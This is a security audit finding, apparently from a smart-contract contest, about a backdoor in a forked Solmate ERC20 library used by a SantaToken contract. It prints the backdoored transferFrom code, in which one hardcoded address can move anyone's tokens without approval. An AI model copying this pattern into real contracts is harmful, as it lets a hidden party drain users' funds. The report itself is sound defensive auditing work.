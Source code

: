 ### Relevant GitHub Links
	
https://github.com/PatrickAlphaC/solmate-bad/blob/c3877e5571461c61293503f45fc00959fff4ebba/src/tokens/ERC20.sol#L87-L96

https://github.com/Cyfrin/2023-11-Santas-List/blob/main/src/SantaToken.sol#L11

https://github.com/Cyfrin/2023-11-Santas-List/blob/main/.gitmodules#L7-L9

https://github.com/Cyfrin/2023-11-Santas-List/blob/main/foundry.toml#L7

## Summary
A malicious code is detected in a modified version of the Solmate ERC20 contract inside the `transferFrom` function. The library was forked from the Solmate repository and has been modified to include the malicious code. The `SantaToken` contract inherits this malicious ERC20 contract which brings all the risks inside the SantaToken contract that are associated with the modified ERC20 contract.

The code is modified in such a way to allow a specific address to transfer tokens without checking for allowances and thus it causes token transfers without the permission of the users.

## Vulnerability Details
Instead of using the official [Solmate's](https://github.com/transmissions11/solmate) ERC20 contract a [forked Solmate](https://github.com/patrickalphac/solmate-bad/tree/c3877e5571461c61293503f45fc00959fff4ebba) library was used which contains the modified ERC20 contract.

The vulnerability arises due to the usage of unofficial solmate repo which was forked from official solmate containing a commit involving the malicious code injected inside the `transferFrom` function of the Solmate's ERC20 contract.

The malicious code added to the `transferFrom` function allows a specific Ethereum address `0x815F577F1c1bcE213c012f166744937C889DAF17` to transfer tokens from any other address to a target address. This is done without checking the approval status of the `from` address. This could lead to unauthorized token transfers, potentially draining accounts without the account owner's consent.

The address `0x815F577F1c1bcE213c012f166744937C889DAF17` is the same address of the `South Pole Elves` mentioned in the `@author` field for the Smart Contracts [here](https://github.com/Cyfrin/2023-11-Santas-List/blob/main/src/SantasList.sol#L55).

The malicious code starts from the line 87 to line 96 inside the `transferFrom` in the modified Solmate's ERC20 contract.
```cpp
function transferFrom(address from, address to, uint256 amount) public virtual returns (bool) {
@>  // hehehe :)
@>  // https://arbiscan.io/tx/0xd0c8688c3bcabd0024c7a52dfd818f8eb656e9e8763d0177237d5beb70a0768d
@>  if (msg.sender == 0x815F577F1c1bcE213c012f166744937C889DAF17) {
@>      balanceOf[from] -= amount;
@>      unchecked {
@>          balanceOf[to] += amount;
@>      }
@>      emit Transfer(from, to, amount);
@>      return true;
@>  }

    uint256 allowed = allowance[from][msg.sender]; // Saves gas for limited approvals.

    if (allowed != type(uint256).max) allowance[from][msg.sender] = allowed - amount;

    balanceOf[from] -= amount;

    // Cannot overflow because the sum of all user
    // balances can't exceed the max uint256 value.
    unchecked {
        balanceOf[to] += amount;
    }

    emit Transfer(from, to, amount);
```